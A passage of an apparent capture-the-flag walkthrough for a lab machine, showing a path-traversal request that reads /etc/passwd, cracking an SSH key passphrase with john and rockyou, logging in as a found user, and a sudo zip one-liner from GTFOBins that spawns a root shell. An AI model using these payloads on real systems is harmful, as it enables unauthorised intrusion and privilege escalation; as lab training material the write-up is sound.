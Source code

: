 ```
[SNIPPED]
```

so local file intrusion is possible! Lets exploit it!

```
http://10.10.1.154:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd
```

it worked! We received the password file:

```
[SNIPPED]
jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
[SNIPPED]
```

and we obtained an username: "jeanpaul". If we try to ssh into it tho, it asks for an passphrase. Lets crack it with john:

```bash
ssh2john id_rsa >> hash1
john hash1 -w=/usr/share/wordlists/rockyou.txt
```

At the end, the password doesnt exists in rockyou.txt. Since we have found a password before, lets try that!

```bash 
chmod 600 id_rsa
ssh jeanpaul@10.10.1.154 -i id_rsa 
Passphrase: I_love_java
```

It works!

## Privilege escalation

```bash
sudo -l
```

reveals that we can execute "/usr/bin/zip" as root, without an password.

We can use the command listed in  [GTFO-bins](https://gtfobins.github.io/gtfobins/zip/#sudo) to gain root privilege;

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
bash
```

## Root-Flag
```
cat flag.txt

Congratz on rooting this box !
```